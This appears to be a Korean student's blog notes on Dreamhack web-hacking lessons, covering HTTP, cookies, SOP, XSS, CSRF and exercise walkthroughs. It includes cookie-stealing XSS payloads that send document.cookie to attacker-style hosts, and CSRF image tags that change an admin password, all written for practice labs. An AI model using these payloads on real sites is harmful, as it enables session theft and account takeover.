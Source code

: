 ```yaml
---
layout: post
title:  "Web Hacking Study - Dreamhack"
toc: true
---
```


## Introduction
그냥 소개하는 곳이구나.
각오: 부지런하자

## Background: Web
World Wide Web, W3, Web, 웹
웹: HTTP를 이용하여 정보를 공유하는 서비스
HTTP: 웹상에서 서로 통신을 하기 위해 정해둔 일종의 규칙
프론트엔드(Front-end): 이용자의 요청을 받는 부분
백엔드(Back-end): 요청을 처리하는 부분

웹 리소스: 웹에 갖춰진 정보 자산 - 고유의 Uniform Resource Identifier(URL)을 가짐
- Hyper Text markup Language (HTML): 태그와 속성을 통한 구조화된 문서 작성 지원
- Cascading Style Sheets (CSS): 웹 리소스들의 시각화 방법을 기재한 스타일 시트
- JavaScript (JS): 웹 문서의 동작 정의. (Client-Side Script)

## Background: HTTP/HTTPS

클라이언트의 행의 요청: Request / 서버의 행위 응답: Response
프로토콜(Protocol): 규격화된 상호작용에 적용되는 약속

HTTP: 서버와 클라이언트의 데이터 교환을 요쳥과 응답 형식으로 정의한 프로토콜
### HTTP 헤더
각 줄은 CRLF로 구분되며 첫 줄은 시작 줄(Start Line), 나머지 줄은 헤더(Header)라고 부름
헤더의 끝은 빈 줄
### HTTP 바디
헤드의 끝을 나타내는 CRLF 뒤 모든 줄

### HTTP 요청
시작 줄: 메소드, 요청 대상, HTTP 버전으로 구성
- 메소드: 요청 대상에 대해 서버가 수행하길 바라는 동작
예) GET(리소스 가져와), POST(요청 대상에게 데이터 보내)
### HTTP 응답
시작줄: HTTP 버전, 상태 코드, 처리 사유로 구성. 띄어쓰기로 구분
- 상태 코드: 요청에 대한 처리 결과를 세 자릿수로 나타냄 (예: 404)

HTTPS(HTTP over Secure socket layer): TLS를 사용하여 HTTP를 보완한 프로토콜

## Background: Web Browser

웹 브라우저: 뛰어난 이용자 경험을 제공하는 소프트웨어 중 하나
URL은 Scheme, Authority (Userinfo, Host, Port), Path, Query, Fragment로 구성
- scheme: 웹 서버와 어떤 프로토콜로 통신할지
- Host: Authority의 일부. 접속할 웹 서버의 주소에 대한 정보
- Port: Authority의 일부. 접속할 웹 서버의 포트에 대한 정보
- Path: 접근할 웹 서버의 결로로 '/'로 구분
- Query: 웹 서버에 전달하는 파라미터. ? 뒤에 위치
- Fragment: 메인 리소스에 존재하는 서브 리소스를 접근할 때 식별하기 위한 정보. # 뒤에 위치

Domain name: 도메인의 특성을 담은 이름을 정의하여 IP 대신 사용 (예: naver.com)

웹 렌더링(Web rendering): 서버로부터 받은 리소스를 이용자에게 시각화하는 행위

## Tools: browser DevTools
개발자 도구: F12 누르면 나오는 창
요소 검사: 웹 페이지의 원하는 요소에 마우스를 올리면 대상의 정보 출력, 클릭하면 관련된 HTML 코드 하이라이팅
디바이스 툴바: 현재 브라우저의 화면 비율 및 User-Agent를 원하는 값으로 변경 가능
Elements: HTML 코드 읽기
- 코드를 선택한 상태로 단축키 F2를 누르거나 더블클릭하면 수정 가능.
Console: 프론트렌드의 자바스크립트 코드에서 발생한 각종 메세지를 출력, 이용자가 입력한 자바스크립트 코드를 실행해주는 도구
- 윈도우즈 단축키 : Ctrl + Shift + J
Sources: 현재 페이지를 구성하는 웹 리소스 확인 가능, 원하는 JS 디버깅 가능
Network: 서버와 오가는 데이터 확인 가능. 로그를 우클릭하고 Copy로 복사 가능
Application: 쿠키, 캐시, 이미지, 폰트, 스타일시트 등 웹 애플리케이션과 관련된 리소스 조회

## ServerSide: Command Injection
인젝션(Injection): 악의적인 데이터를 프로그램에 입력하여 이를 시스템 명령어, 코드, 데이터베이스 쿼리 등으로 실행되게 하는 기법
Command Injection: 이용자의 입력을 시스템 명령어로 실행하게 하는 취약점
-> 이용자의 입력을 제대로 검사하지 않으면 임의 명령어가 실행될 수 있음

'' 명령어 치환 - 중복 사용 불가
$() 명령어 치환 - 중복 사용 가능
&& 명령어 연속 실행 - 앞 명령어 에러 발생 X 시 뒷 명령어 실행
|| 명령어 연속 실행 - 앞 명령어 에러 발생 시 뒷 명령어 실행
; 명령어 구분
| 파이프 - 앞 명령어의 결과가 뒷 명령어의 입력으로 들어감

## Background: Cookie & Session
HTTP 프로토콜 특징
- Connectionless: 하나의 요청에 하나의 응답을 한 후 연결 종료
- Stateless: 통신이 끝난 후 상태 정보를 저장하지 않는 것
이러한 특성을 갖는 HTTP에서 상태를 유지하기 위해 쿠키 탄생

쿠키: Key와 Value로 이뤄진 일종의 단위
개개인에게 맞춤형 서비스를 제공하기 위해 클라이언트를 식별할 수 있는 값을 쿠키에 저장해 사용함
-> 서버가 검증 없이 쿠키를 통해 이용자의 인증 정보를 식별하면 악의적인 클라이언트가 쿠키 정보를 변조한 공격에 당할 수 있음

세션(Session): 인증 정보를 서버에 저장하고 해당 데이터에 접근할 수 있는 키(유추할 수 없는 랜덤한 문자열, Session ID)을 만들어 클라이언트에 전달

## Exercise: Cookie
엔드포인트: /
서버는 별다른 검증 없이 이용자 요청에 포함된 쿠키를 신뢰하고, 이용자 인증 정보를 식별하기 때문에 공격자는 쿠키에 타 계정 정보를 삽입해 계정을 탈취할 수 있습니다.

<!--
C:\Users\skanj>python -c "import flask; print('Flask is installed')"
Flask is installed

C:\Users\skanj>import flask
'import'은(는) 내부 또는 외부 명령, 실행할 수 있는 프로그램, 또는
배치 파일이 아닙니다.

C:\Users\skanj>python -c import flask
  File "<string>", line 1
    import
          ^
SyntaxError: invalid syntax

C:\Users\skanj>python -c "import falsk"
Traceback (most recent call last):
  File "<string>", line 1, in <module>
ModuleNotFoundError: No module named 'falsk'

C:\Users\skanj>python -c "import flask"

C:\Users\skanj>python app.py
python: can't open file 'C:\\Users\\skanj\\app.py': [Errno 2] No such file or directory

C:\Users\skanj>cd /mnt/c/Users/skanj/OneDrive/바탕\ 화면/coding
지정된 경로를 찾을 수 없습니다.

C:\Users\skanj>cd C:\Users\skanj\OneDrive\바탕 화면\coding

C:\Users\skanj\OneDrive\바탕 화면\coding>python -c "import flask"

C:\Users\skanj\OneDrive\바탕 화면\coding>pyton app.py
'pyton'은(는) 내부 또는 외부 명령, 실행할 수 있는 프로그램, 또는
배치 파일이 아닙니다.

C:\Users\skanj\OneDrive\바탕 화면\coding>python app.py
 * Serving Flask app 'app'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:8000
 * Running on http://192.168.0.5:8000
Press CTRL+C to quit
-->

도대체 저 서버에 어떻게 들어가나 싶었는데 문제에 'VM 접속하기'를 누르면 들어갈 수 있는 서버가 떴다. 진짜 충격!!!

개발자 도구 -> 응용 프로그램 -> 쿠키 -> guest를 admin으로 변조

## Background: Cookie & Session
링크/admin 페이지에서 admin용 코드 복사해서 guest의 코드를 admin 코드로 붙여넣기

## mitigation: Same Origin Policy
SOP(Same Origin Policy), 동일 출처 정책: 가져온 데이터를 악의적인 페이지에서 읽을 수 없도록 하는 브라우저의 보안 매커니즘
이미지나 자바스크립트, CSS 등의 리소스는 SOP에 구애 받지 않고 외부 출처에 대해 접근을 허용한다

Origin(오리진): 브라우저가 가져온 정보의 출처
프로토콜(Protocol, Schema), 포트(Port), 호스트(Host)로 구성 -> 구성 요소가 모두 일치해야 동일한 오리진
동일한 오리진(Same Origin)-구성 요소가 모두 일치 / 다른 오리진(Cross Origin)-하나라도 다름

외부 출처에서 불러온 데이터를 읽으려고 할 때는 오류가 발생해 읽지 못함. 하지만 읽는 것 외에 데이터를 쓰는 것은 문제 없이 동작함.

교차 출처 리소스 공유(Cross Origin Resource Sharing, CORS): HTTP 헤더에 기반하여 Cross Origin 간에 리소스를 공유하는 방법
- 발신측에서 CORS 헤더를 설정해 요청하면, 수신측에서 헤더를 구분해 정해진 규칙에 맞게 데이터를 가져갈 수 있도록 설정

JSON with Padding (JSONP)
JSONP 방식은 <script> 태그로 Cross Origin의 데이터를 불러옴. 하지만 <script> 태그 내에서는 데이터를 자바스크립트의 코드로 인식하기 때문에 Callback 함수를 활용
예시: myCallback({'id':'dreamhack'});

## ClientSide: XSS
클라이언트 사이드 취약점: 웹 페이지의 이용자를 대상으로 공격할 수 있는 취약점
대표적인 공격: Cross Site Scripting(XSS) -  공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행할 수 있음
이용자가 삽입한 내용을 출력하는 기능에서 발생

발생 형태에 따른 XSS 종류
- Stored XSS: XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS
- Refleced XSS: XSS에 사용되는 악성 스크립트가 URL에 삽입디고 서버의 응답에 담겨오는 XSS
- DOM-based XSS: XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS
- Universal XSS: 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점. SOP 정책을 우회하는 XSS

### 콘솔에 넣을 수 있는 자바 스크립트 코드들
alert("hello");
alert(document.cookie); // 현재 페이지의 쿠키를 인자로 가진 alert 실행.
document.cookie = "name=test;"; // 쿠키 생성(key: name, value: test)
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie; // new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정
document; // 이용자의 페이지 정보에 접근.
document.write("Hacked By DreamHack !"); // 이용자의 페이지에 데이터를 삽입.
location.href = "http://hacker.dreamhack.io/phishing"; // 이용자의 위치를 변경.
window.open("http://hacker.dreamhack.io/") // 새 창 열기

## Exercise: XSS
취약점: vuln은 이용자가 입력한 값을 페이지에 그대로 출력하기 때문에 XSS가 발생

<!--
flag 엔드포인트에서 다음과 같은 익스플로잇 코드를 입력하면, memo 엔드포인트에서 임의 이용자의 쿠키 정보를 확인할 수 있습니다.
<script>location.href = "/memo?memo=" + document.cookie;</script>
<script>location.href = "https://augpkgf.request.dreamhack.games/?memo=" + document.cookie;</script>
-->

## Exercise: XSS-2
셀레늄(Selenium): 웹 애플리케이션 테스팅에 사용되는 파이썬 패키지로, API를 통해 크롬, 사파리 등의 웹 드라이버를 사용할 수 있습니다
get으로 사용자가 입력한 param을 바로 return 하는 형태가 아니라, render_template 함수를 사용하고 있다 -> 이용자가 입력한 값을 페이지에 그대로 출력하지 않는다
var content = document.getElementById('example').innerHTML; // 읽기: 요소의 내부 HTML을 가져옴
document.getElementById('example').innerHTML = 'New Content'; // 쓰기: 요소의 내부 HTML을 변경
취약점: 이용자 입력을 바탕으로 innerHTML을 설정했을 때 XSS 공격에 취약할 수 있음

<!--
/flag 페이지의 param 부분에 입력하면, memo에서 임의 이용자의 쿠키 정보를 확인할 수 있게 됩니다.
<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">
-->

## 드림핵 아닌 BurpSuite
기능
- Proxy: HTTP, HTTPS 트래픽을 가로채고 조작할 수 있음. 요청 및 응답값 분석과 파라미터값 위/변조 가능
- 스캐너: 자동으로 웹 애플리케이션에서 보안취약점을 탐지하는 기능
- Repeater: 특정 응답값을 보내어 서버의 응답을 확인할 수 있음
- Intruder: 특정 응답값을 보내어, position, payload를 설정하여 무작위 대입을 할 수 있음
- Interceptor: 프록시에서 트래픽을 중단하고 사용자가 요청 및 응답을 수정한 후 전송 가능

## ClientSide: CSRF
CSRF(교차 사이트 요청 위조): 임의 이용자의 권한으로 임의 주소에 HTTP 요청을 보낼 수 있는 취약점
-> 그럴듯한 웹 페이지를 만들어서 이용자의 입력을 유도하고, 이용자가 값을 입력하면 이를 은행이나 주요 포털 사이트 등으로 전송하여 마치 이용자가 동의한 것 같은 요청을 발생시킴

이용자가 공격자가 작성한 악성 스크립트를 실행해야 CSRF 공격이 성공함 -> HTML 또는 Javascript

### HTML
- img 태그
<img scr='https://뭐시기.com/뭐시기.png'>
- form 태그
<form action='https://뭐시기'>
  <input name='뭐시기'>
</form>

### Javascript
- 새 창 띄우기
window.open('http://bank.dreamhack.io/sendmoney?to=Dreamhack&amount=1337');
- 현재 창 주소 옮기기
location.href = 'http://bank.dreamhack.io/sendmoney?to=Dreamhack&amount=1337';
location.replace('http://bank.dreamhack.io/sendmoney?to=Dreamhack&amount=1337');

XSS와 CSRF
공통점: 클라이언트 대상 공격, 이용자가 악성 스크립트가 포함된 페이지에 접속하도록 유도해야 함
차이점: 목적. XSS는 세션 및 쿠키 탈취를 목적, CSRF는 이용자가 임의 페이지에 HTTP 요청을 보내는 것을 목적.

## Exercise: CSRF-1
키워드 필터링 적용 -> 필터링 키워드 이외의 꺽쇠 (<, >)를 포함한 다른 키워드와 태그는 사용할 수 있기 때문에 CSRF 공격을 수행할 수 있습니다.
xss_filter = ["frame", "script", "on"]
for _ in xss_filter:
        param = param.replace(_, "*")

공격 방법
로컬호스트에 위치하는 이용자가 /admin/notice_flag 페이지를 방문하도록 해야하기 때문에 아래와 같이 공격 코드를 작성해야 합니다. 이때, userid 파라미터가 admin인지 검사하는 부분이 존재하기 때문에 해당 문자열을 포함해야 합니다.
<img src="/admin/notice_flag?userid=admin" />
공격 코드를 작성했다면, 아래와 같이 flag 페이지에서 공격 코드를 전송합니다. 성공적으로 전송했다면 로컬호스트에서 http://127.0.0.1:8000/vuln?param=<img src="/admin/notice_flag?userid=admin"/>에 접속하게 됩니다.

## Exercise: CSRF-2
필터링 키워드 이외의 꺽쇠 (<, >)를 포함한 다른 키워드와 태그는 사용할 수 있기 때문에 CSRF 공격을 수행할 수 있습니다.

공격 방법
/flag 페이지에서 이용자가 /change_password를 통해 admin의 pw값을 바꾸어야하기 때문에 아래와 같이 공격 코드를 작성해야 합니다.
<img src="/change_password?pw=admin">
이러면 pw가 admin으로 바껴서 로그인하면 플래그 획득 가능















